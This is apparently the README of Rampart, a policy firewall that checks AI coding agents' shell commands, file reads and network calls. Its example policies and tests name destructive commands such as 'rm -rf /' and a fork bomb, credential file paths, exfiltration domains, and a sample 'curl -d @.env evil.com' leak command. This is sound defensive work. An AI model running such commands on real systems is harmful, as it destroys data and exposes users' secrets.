

<div align="center">

# 🛡️ Rampart

**The security layer for AI coding agents.**

[](https://go.dev)
[](LICENSE)
[](https://github.com/peg/rampart/actions/workflows/ci.yml)
[](https://github.com/peg/rampart/releases)
[](https://docs.rampart.sh)

</div>

---

Claude Code's `--dangerously-skip-permissions` mode — and similar autonomous modes in Cursor, Cline, and Codex — give agents unrestricted shell access. Rampart sits between the agent and your system: every command, file access, and network request is evaluated against your YAML policy before it executes. Dangerous commands are blocked in microseconds. Everything is logged.

One command to get protected:
```bash
rampart setup claude-code
```

`rampart quickstart` auto-detects Claude Code, Cursor, or Windsurf, installs `rampart serve` as a boot service, configures hooks, and runs a health check. Done.

Or set up manually:

```bash
rampart serve install                 # Install background service (saves token to ~/.rampart/token)
rampart setup claude-code             # Wire up Claude Code hooks
```

Once running, every command Claude executes goes through Rampart's policy engine first:

```
✅ 14:23:01  exec  "npm test"                          [allow-dev]
✅ 14:23:03  read  ~/project/src/main.go                [default]
🔴 14:23:05  exec  "rm -rf /tmp/*"                      [block-destructive]
🟡 14:23:08  exec  "curl https://api.example.com"       [log-network]
👤 14:23:10  exec  "kubectl apply -f prod.yaml"         [require-approval]
```

---

## How it works


*Pattern matching handles 95%+ of decisions in microseconds. The optional [rampart-verify](https://github.com/peg/rampart-verify) sidecar adds LLM-based classification for ambiguous commands. All decisions go to a hash-chained audit trail.*

| Agent | Setup | Integration |
|-------|-------|-------------|
| **Claude Code** | `rampart setup claude-code` | Native `PreToolUse` hooks — works in `--dangerously-skip-permissions` mode |
| **OpenClaw** | `rampart setup openclaw` | Shell shim with human-in-the-loop approval flow. Add `--patch-tools` for file read/write coverage |
| **Cline** | `rampart setup cline` | Native hooks via settings |
| **Cursor** | `rampart mcp -- cursor` | MCP proxy configuration |
| **Any agent** | `rampart wrap -- <agent>` | Shell wrapping via `$SHELL` |
| **MCP servers** | `rampart mcp -- <server>` | MCP protocol proxy |
| **System-wide** | `rampart preload -- <cmd>` | LD_PRELOAD syscall interception |

<div align="center">

</div>

<details>
<summary><strong>📖 Table of Contents</strong></summary>

**Getting Started:** [Install](#install) · [Claude Code](#claude-code-integration) · [Wrap Any Agent](#wrap-any-agent) · [Quick Start](#quick-start)

**Core Features:** [Writing Policies](#writing-policies) · [Approval Flow](#approval-flow) · [Audit Trail](#audit-trail) · [Live Dashboard](#live-dashboard) · [Webhook Notifications](#webhook-notifications)

**Advanced:** [LD_PRELOAD](#protect-any-process-ld_preload) · [MCP Proxy](#protect-mcp-servers) · [SIEM Integration](#siem-integration) · [Webhook Actions](#webhook-actions) · [Preflight API](#preflight-api)

**Reference:** [Performance](#performance) · [Security](#security-recommendations) · [CLI Reference](#cli-reference) · [Compatibility](#compatibility) · [Building from Source](#building-from-source) · [Contributing](#contributing) · [Roadmap](#roadmap)

</details>

---

## Install

```bash
# One-line install (macOS & Linux, no sudo required):
curl -fsSL https://rampart.sh/install | bash
```

Or pick your preferred method:

```bash
# Homebrew (macOS and Linux)
brew install peg/rampart/rampart

# Go install (requires Go 1.24+)
go install github.com/peg/rampart/cmd/rampart@latest

# Or download a binary from GitHub Releases
# https://github.com/peg/rampart/releases
```

> **Tip:** The curl installer drops the binary in `~/.local/bin` and runs `rampart quickstart` automatically.
> Pin a version with `RAMPART_VERSION=v0.4.7 curl -fsSL https://rampart.sh/install | bash`.
>
> Run `rampart version` to confirm.

After installing the binary, run `rampart quickstart` to set everything up in one shot, or follow the manual steps below.

---

## Claude Code integration

Native integration through Claude Code's hook system:

```bash
# Start the background service (installs to systemd/launchd, saves token to ~/.rampart/token)
rampart serve install

# Wire up Claude Code hooks (auto-discovers the service — no env vars needed)
rampart setup claude-code
```

Every Bash command, file read, and file write goes through Rampart's policy engine before execution. Blocked commands never run.

Then just use Claude Code normally:

```bash
claude
```

See what's happening in real time:

```bash
rampart watch
```

## Wrap any agent

For agents without a hook system, `wrap` sets `$SHELL` to a policy-checking shim. Works with any agent that reads the `$SHELL` environment variable (Aider, OpenCode, Continue, Cline, and more):

```bash
rampart wrap -- aider
rampart wrap -- opencode
rampart wrap -- python my_agent.py
```

## Protect any process (LD_PRELOAD)

For agents with no hook system and no `$SHELL` support, `preload` intercepts exec-family syscalls at the OS level. This is the universal fallback — it works with **any** dynamically-linked process:

```bash
# Protect Codex CLI — preferred: install wrapper (Linux)
rampart setup codex                  # installs ~/.local/bin/codex wrapper (Linux only)
# Fallback: LD_PRELOAD (Linux + macOS)
rampart preload -- codex

# Protect any Python agent
rampart preload -- python my_agent.py

# Protect any Node.js agent
rampart preload -- node agent.js

# Monitor mode (log only, don't block)
rampart preload --mode monitor -- risky-tool
```

Preload intercepts `execve`, `execvp`, `system()`, `popen()`, and `posix_spawn()` — every way a process can spawn a command. Each call gets evaluated against your policy before executing. Denied calls return `EPERM`.

**Requires:** `librampart.so` (Linux) or `librampart.dylib` (macOS) installed to `~/.rampart/lib/`. Build from `preload/` or download from releases.

**Platform notes:**
- **Linux:** Works with all dynamically-linked binaries (~95% coverage)
- **macOS:** Works with Homebrew, nvm, pyenv, cargo binaries. Blocked by SIP for `/usr/bin/*` (but AI agents don't live there)

See [`preload/README.md`](preload/README.md) for build instructions and details.

---

## Protect MCP servers

Drop-in proxy between your agent and any MCP server. Evaluates every `tools/call` against your policies:

```bash
# Instead of connecting directly to an MCP server:
rampart mcp -- npx @modelcontextprotocol/server-filesystem /path
```

In your MCP config (Claude Code, Cursor, etc.):

```json
{
  "mcpServers": {
    "filesystem": {
      "command": "rampart",
      "args": ["mcp", "--", "npx", "@modelcontextprotocol/server-filesystem", "."]
    }
  }
}
```

Denied tool calls return a JSON-RPC error — the MCP server never sees them. Safe calls pass through transparently. Tools with destructive keywords (delete, destroy, remove) are blocked out of the box.

### Auto-generate policies from MCP servers

Don't write policies from scratch — scan an MCP server's tool list and generate a deny-by-default policy:

```bash
rampart mcp scan -- npx @modelcontextprotocol/server-filesystem .
```

Review, customize, deploy. Each tool becomes an explicit rule you can allow or deny.

---

## Quick start

```bash
# One-shot setup: detects your agent, installs the service, wires hooks, runs health check
rampart quickstart

# Or set up for a specific agent
rampart setup claude-code     # Claude Code native hooks
rampart wrap -- aider         # Any agent that reads $SHELL

# Test a command against your policies without running it
echo '{"tool_name":"Bash","tool_input":{"command":"rm -rf /"}}' | rampart hook
# → {"hookSpecificOutput":{"permissionDecision":"deny","permissionDecisionReason":"Rampart: Destructive command blocked"}}

# Or test directly
rampart test "rm -rf /"
```

Three built-in profiles:

| Profile | Default | Use case |
|---------|---------|----------|
| `standard` | allow | Block dangerous, watch suspicious, allow the rest |
| `paranoid` | deny | Explicit allowlist for everything |
| `yolo` | allow | Log-only, no blocking |

---

## Writing policies

Policies are YAML. Glob matching, hot-reload on file change.

> Running `rampart setup` creates `~/.rampart/policies/custom.yaml` as a starter template. Unlike built-in profiles, it's never overwritten by `rampart upgrade`.

```yaml
version: "1"
default_action: allow

policies:
  - name: block-destructive
    match:
      tool: ["exec"]
    rules:
      - action: deny
        when:
          command_matches: ["rm -rf *", "mkfs.*", "dd if=*", ":(){ :|:& };:"]
        message: "Destructive command blocked"

  - name: block-credential-reads
    priority: 1
    match:
      tool: ["read"]
    rules:
      - action: deny
        when:
          path_matches: ["**/.ssh/id_*", "**/.aws/credentials", "**/.env"]
        message: "Credential access blocked"

  - name: block-exfil
    match:
      tool: ["fetch"]
    rules:
      - action: deny
        when:
          domain_matches: ["*.ngrok-free.app", "*.requestbin.com", "webhook.site"]
        message: "Exfiltration domain blocked"
```

Use `command_contains` for substring matching (case-insensitive, v0.4.4+):

```yaml
  - name: block-dangerous-substrings
    match:
      tool: ["exec"]
    rules:
      - action: deny
        when:
          command_contains:
            - "DROP TABLE"    # substring match, case-insensitive (v0.4.4+)
            - "rm -rf"
        message: "Dangerous substring detected"
```

> `command_contains` uses substring matching (case-insensitive). `command_matches` uses glob patterns.

**Evaluation:** Deny always wins. Lower priority number = evaluated first. Four actions: `deny`, `require_approval`, `watch`, `allow`. (`log` is a deprecated alias for `watch` — update your policies if you use it.)

### Project-local policies

Drop `.rampart/policy.yaml` in any git repo to add project-specific rules on top of your global policy. Commit it so every team member gets the same rules automatically — zero per-developer configuration.

```bash
# Scaffold a project policy in the current repo
rampart init --project
```

Or create it manually:

```bash
mkdir -p .rampart && cat > .rampart/policy.yaml << 'EOF'
version: "1"
policies:
  - name: myapp-no-prod-migrations
    match:
      tool: exec
    rules:
      - action: deny
        when:
          command_matches: ["*migrate*--env=production*"]
        message: "Production migrations require human review"
EOF
git add .rampart/policy.yaml && git commit -m "Add Rampart project policy"
```

Global policy always takes precedence for `default_action`. Set `RAMPART_NO_PROJECT_POLICY=1` to skip project policy loading.

Run `rampart doctor` in any repo — it reports whether a project policy is found.

### Session identity

Audit events are tagged with the current session, auto-detected from git as `reponame/branch` (e.g. `myapp/main`). Use `session_matches` in policy rules to apply stricter rules to specific repos or branches:

```yaml
rules:
  - action: require_approval
    when:
      session_matches: ["myapp/main", "myapp/production"]
    message: "Exec on production branch requires approval"
```

Use `session_not_matches` to apply rules to all sessions *except* listed ones:

```yaml
rules:
  - action: deny
    when:
      session_not_matches: ["myapp/dev", "myapp/test"]
    message: "Only dev/test branches may run this"
```

Override the auto-detected label with `RAMPART_SESSION=my-label`.

---

## Approval flow

For the grey area — commands that need a human to decide:

```yaml
policies:
  - name: production-deploys
    match:
      tool: ["exec"]
    rules:
      - action: require_approval
        when:
          command_matches: ["kubectl apply *", "terraform apply *"]
        message: "Production deployment requires approval"
```

Pending approvals expire after **1 hour** by default (configurable with `--approval-timeout`).

How approval reaches you depends on your environment:



```bash
rampart pending                # What's waiting
rampart approve abc123         # Let it through
rampart deny abc123            # Block it
```

---

## Preflight API

Check if a call would be allowed without executing it:

```bash
curl -s localhost:9090/v1/preflight/exec \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"agent":"a","session":"s","params":{"command":"rm -rf /"}}'
# → {"allowed":false,"decision":"deny","matched_policies":["block-destructive"]}
```

No side effects. For agents that plan before acting.

---

## Audit trail

Every tool call is logged to hash-chained JSONL. Each entry includes a SHA-256 hash of the previous entry — tamper with any record and the chain breaks.

```bash
rampart audit tail --follow     # Stream events
rampart audit verify            # Check chain integrity
rampart audit stats             # Decision breakdown
rampart audit search            # Query by tool, agent, decision, time range
```

Why hash-chained: in regulated environments, you need to prove what your agent did. A hash chain means no one can edit history without detection.

---

## Live dashboard

```bash
rampart watch           # TUI — live colored event stream in your terminal
```

When `rampart serve` is running, a web dashboard is also available at **http://localhost:9090/dashboard/**.

The dashboard has three tabs:

- **Active** — live stream of tool calls; approve or deny queued requests in real time
- **History** — browse past tool calls with filtering by tool, decision, and time
- **Policy** — view loaded rules; test commands against your policy with the **"Try a command"** REPL before they ever run

Supports dark and light theme. No extra setup needed — it's built into `rampart serve`.

```
╔══════════════════════════════════════════════════════════════╗
║  RAMPART — enforce — 3 policies                             ║
╠══════════════════════════════════════════════════════════════╣
║  ✅ 21:03:42 exec  "git push origin main"     [allow-git]   ║
║  ✅ 21:03:41 read  ~/project/src/main.go      [default]     ║
║  🔴 21:03:38 exec  "rm -rf /tmp/*"            [protect-sys] ║
║  ✅ 21:03:35 exec  "npm test"                 [allow-dev]   ║
║  🟡 21:03:33 exec  "curl https://api.io"      [log-http]    ║
╠══════════════════════════════════════════════════════════════╣
║  1,247 total │ 1,201 allow │ 12 deny │ 34 watch             ║
╚══════════════════════════════════════════════════════════════╝
```

---

## Webhook notifications

Get real-time alerts when Rampart blocks something. Add a `notify` section to your policy file:

```yaml
version: "1"
default_action: allow

notify:
  url: "https://discord.com/api/webhooks/your/webhook"
  # Or Slack: "https://hooks.slack.com/services/your/webhook"
  on: ["deny"]  # Only notify on denied commands (options: deny, watch)

policies:
  # ... your policies
```

Rampart sends a JSON payload to your webhook URL whenever a matching event occurs:

```json
{
  "timestamp": "2026-02-11T21:03:38Z",
  "decision": "deny",
  "tool": "exec",
  "command": "rm -rf /tmp/*",
  "policy": "protect-sys",
  "message": "Destructive command blocked",
  "agent": "claude-code",
  "session": "myapp/main"
}
```

Works with Discord webhooks, Slack incoming webhooks, or any HTTP endpoint that accepts POST requests.

---

## SIEM integration

Send audit events to your existing security stack. Three output formats, works with any SIEM:

```bash
# RFC 5424 syslog (Wazuh, QRadar, ArcSight, LogRhythm, Sentinel)
rampart serve --syslog localhost:514

# Common Event Format (Splunk, QRadar, ArcSight, Exabeam)
rampart serve --syslog localhost:514 --cef

# CEF to file (when you don't have a syslog collector)
rampart serve --cef
```

All three outputs run alongside the default JSONL audit trail — you don't lose anything by enabling SIEM output.

**Wazuh users**: See [`docs/guides/wazuh-integration.md`](docs/guides/wazuh-integration.md) for a complete setup guide with custom decoder, alerting rules, and FIM recommendations for AI agent hosts.

**Codex users**: See [`docs/guides/codex-integration.md`](docs/guides/codex-integration.md) for LD_PRELOAD setup, PATH configuration, and policy verification.

---

## Webhook actions

Delegate allow/deny decisions to an external service — LLM-based intent verification, Slack approval bots, custom logic:

```yaml
rules:
  - action: webhook
    when:
      command_matches: ['*production*']
    webhook:
      url: 'http://localhost:8090/verify'
      timeout: 5s
      fail_open: true
```

The webhook receives the full tool call context and returns `{"decision": "allow"}` or `{"decision": "deny", "reason": "..."}`. Fail-open by default so a down webhook doesn't break your agent.

**Reference implementation**: See [`rampart-verify`](https://github.com/peg/rampart-verify) — an optional sidecar that uses LLMs (gpt-4o-mini, Claude Haiku, or local Ollama) to classify ambiguous commands. Pattern matching handles 95% of decisions for free; the sidecar reviews the rest at ~$0.0001/call.

---

## Integration

### HTTP proxy

Anything that can make HTTP requests works with Rampart. Point your agent's tool calls at the proxy:

| Method | Endpoint | Purpose |
|--------|----------|---------|
| `POST` | `/v1/tool/{toolName}` | Evaluate and execute |
| `POST` | `/v1/preflight/{toolName}` | Dry-run check |
| `GET` | `/v1/approvals` | Pending approvals |
| `POST` | `/v1/approvals/{id}/resolve` | Approve or deny |
| `GET` | `/healthz` | Health check |

### Framework examples

```python
# Python (LangChain, CrewAI, any framework)
response = requests.post("http://localhost:9090/v1/tool/exec",
    headers={"Authorization": f"Bearer {token}"},
    json={"agent": "my-agent", "session": "s1", "params": {"command": cmd}})

if response.json()["decision"] == "deny":
    return f"Blocked: {response.json()['message']}"
```

### OpenClaw

For [OpenClaw](https://github.com/openclaw/openclaw) users — one command sets up a shell shim and background service:

```bash
rampart setup openclaw
```

This covers all `exec` tool calls. For full file tool coverage (Read, Write, Edit), run:

```bash
rampart setup openclaw --patch-tools
```

This patches OpenClaw's Read, Write, Edit, and Grep tools to check Rampart before file operations. Requires write access to the OpenClaw installation directory (typically needs `sudo` for global npm installs).

Supports recent OpenClaw versions with shell shim capabilities.

⚠️ **Re-run after OpenClaw upgrades** — the patch modifies files in `node_modules` that get replaced on update. Between upgrade and re-patch, file tools bypass Rampart (exec shim remains active).

Works on Linux (systemd) and macOS (launchd).

---

## Performance

Policy evaluation in single-digit microseconds:

| Command | Decision | Time |
|---------|----------|------|
| `rm -rf /` | deny | 8µs |
| `sudo reboot` | watch | 6µs |
| `.ssh/id_rsa` read | deny | 3µs |
| `git status` | allow | 4µs |
| `curl ngrok.io` | deny | 3µs |

The proxy adds negligible latency. Agents wait seconds for LLM responses — a few microseconds of policy evaluation is invisible.

---

## Security recommendations

**Don't run your AI agent as root.** If the agent runs as root, no user separation can protect policy files or audit logs — root can read everything. Run your agent framework (OpenClaw, Claude Code, etc.) as an unprivileged user.

**Run `rampart serve` as a separate user.** If Rampart runs as the same user as your AI agent, the agent can read audit logs and modify policy files. A dedicated `rampart` user prevents this:

```bash
# Create a service account
sudo useradd -r -s /usr/sbin/nologin rampart

# Move config and audit to the new user
sudo mkdir -p /etc/rampart /var/lib/rampart/audit
sudo cp ~/.rampart/policies/*.yaml /etc/rampart/
sudo chown -R rampart:rampart /etc/rampart /var/lib/rampart
sudo chmod 700 /etc/rampart /var/lib/rampart/audit

# Run serve as the rampart user
# (update your systemd service with User=rampart)
rampart serve --config /etc/rampart/standard.yaml --audit-dir /var/lib/rampart/audit
```

The agent communicates with Rampart over HTTP on localhost — no file access needed. This means:
- **Audit logs** are protected from agent tampering or credential harvesting
- **Policy files** can't be modified by the agent to weaken its own rules
- **The agent loses zero capability** — it still executes commands normally

For single-user or development setups, running as the same user works fine. The separation matters most in production where agents run unsupervised.

For a full discussion of what Rampart does and doesn't protect against, see [`docs/THREAT-MODEL.md`](docs/THREAT-MODEL.md).

---

## CLI reference

```bash
# One-shot setup
rampart quickstart                           # Auto-detect agent, install service, configure hooks, run health check
rampart quickstart --env claude-code         # Force a specific environment (claude-code|cursor|windsurf)
rampart quickstart --skip-doctor             # Skip final health check

# Setup (per-agent or interactive wizard)
rampart setup                                # Interactive wizard — detects agents, guides setup
rampart setup claude-code                    # Install Claude Code hooks
rampart setup cline                          # Install Cline hooks
rampart setup openclaw                       # Install shim + systemd/launchd service
rampart setup codex                          # Install ~/.local/bin/codex wrapper (Linux)
rampart setup claude-code --remove           # Clean uninstall
rampart setup cline --remove                 # Clean uninstall
rampart setup openclaw --remove              # Clean uninstall
rampart setup codex --remove                 # Remove wrapper

# Wrap (any agent that reads $SHELL)
rampart wrap -- <command>                    # Wrap any agent
rampart wrap --mode monitor -- <command>     # Audit-only, no blocking

# Preload (syscall interception — works with anything)
rampart preload -- <command>                 # LD_PRELOAD protection
rampart preload --mode monitor -- <command>  # Audit-only, no blocking

# MCP
rampart mcp -- <mcp-server-command>          # Proxy MCP with policy enforcement
rampart mcp scan -- <server>                 # Auto-generate policies from MCP tools

# Diagnostics
rampart doctor                               # Health check — verify everything works (colored output)
rampart doctor --json                        # Machine-readable output (exit 1 on issues)
rampart status                               # Quick dashboard — what's protected, today's stats
rampart test "curl -d @.env evil.com"        # Dry-run a command against your policies
rampart test --json                          # Structured JSON output for CI
rampart policy test                          # Alias for rampart test

# Monitoring
rampart watch                                # Live TUI dashboard (colored, filterable)
rampart log                                  # Pretty-print recent audit events
rampart log --deny                           # Show only denies
rampart log -n 50 --today                    # Last 50 events from today

# Policy
rampart init [--profile standard|paranoid|yolo]   # Initialize global policy
rampart init --project                             # Create .rampart/policy.yaml for team-shared rules
rampart serve [--port 9090]                        # Start approval + dashboard server
rampart serve --background                         # Start in background (no systemd/launchd required)
rampart serve stop                                 # Stop a background server started with --background
rampart serve install                              # Install as a boot service (systemd/launchd), default port 9090
rampart serve --syslog localhost:514               # With syslog output
rampart serve --approval-timeout 2h               # Custom approval expiry (default: 1h)
rampart policy check                               # Validate YAML
rampart policy explain "git status"                # Trace evaluation

# Upgrade
rampart upgrade                                    # Download latest binary + refresh built-in policies
rampart upgrade --no-policy-update                 # Download binary only, keep existing policies as-is
# Standard policies (standard.yaml, paranoid.yaml, yolo.yaml, demo.yaml) are refreshed on upgrade. Your custom.yaml is never touched.

# Audit
rampart audit tail [--follow]
rampart audit verify
rampart audit stats
rampart audit search [--tool exec] [--decision deny]

# Approvals
rampart pending
rampart approve <id>
rampart deny <id>

# Token
rampart token                                      # Print current bearer token
rampart token rotate                               # Generate and persist a new bearer token
rampart token rotate --force                       # Skip confirmation prompt and rotate immediately
```

---

## Building from source

```bash
git clone https://github.com/peg/rampart.git
cd rampart
go build -o rampart ./cmd/rampart
go test ./...
```

Requires Go 1.24+.

---

## Contributing

Contributions welcome. Please open an issue first for anything beyond small fixes — we want to discuss the approach before you invest time.

```bash
git clone https://github.com/peg/rampart.git
cd rampart
go test ./...
```

All work goes through the `staging` branch. PRs to `main` require one approving review. See [CONTRIBUTING.md](CONTRIBUTING.md) if it exists, or open an issue to discuss.

---

## Roadmap

See [`docs/ROADMAP.md`](docs/ROADMAP.md) for what's planned. Priorities shift based on feedback — [open an issue](https://github.com/peg/rampart/issues) if something matters to you.

## Compatibility

| Agent | Method | Status |
|-------|--------|--------|
| Claude Code | `rampart setup claude-code` | Native hooks (exec + file), all platforms |
| Cline | `rampart setup cline` | Native hooks (exec + file), all platforms |
| OpenClaw | `rampart setup openclaw [--patch-tools]` | Exec shim + optional file tool patch, Linux/macOS |
| Codex CLI | `rampart setup codex` (Linux); `rampart preload` (macOS) | Wrapper at ~/.local/bin/codex (Linux), LD_PRELOAD |
| Claude Desktop | `rampart mcp` | MCP server proxying, all platforms |
| Aider | `rampart wrap` | Linux, macOS |
| OpenCode | `rampart wrap` | Linux, macOS |
| Continue | `rampart wrap` | Linux, macOS |
| Cursor | `rampart mcp` | MCP server proxying, all platforms |
| Windsurf | `rampart wrap` | Linux, macOS |
| Python agents | `rampart preload` or HTTP API | Linux, macOS |
| Node.js agents | `rampart preload` or HTTP API | Linux, macOS |
| Any MCP server | `rampart mcp` | All platforms |
| Any process | `rampart preload` | Linux, macOS |
| Custom agents | `rampart serve` | All platforms |

`rampart hook`, `rampart mcp`, `rampart mcp scan`, and `rampart serve` work on Linux, macOS, and Windows.
`rampart wrap` and `rampart preload` require Linux or macOS.
`--syslog` requires Linux or macOS. `--cef` works on all platforms.

---

## License

[Apache 2.0](LICENSE)
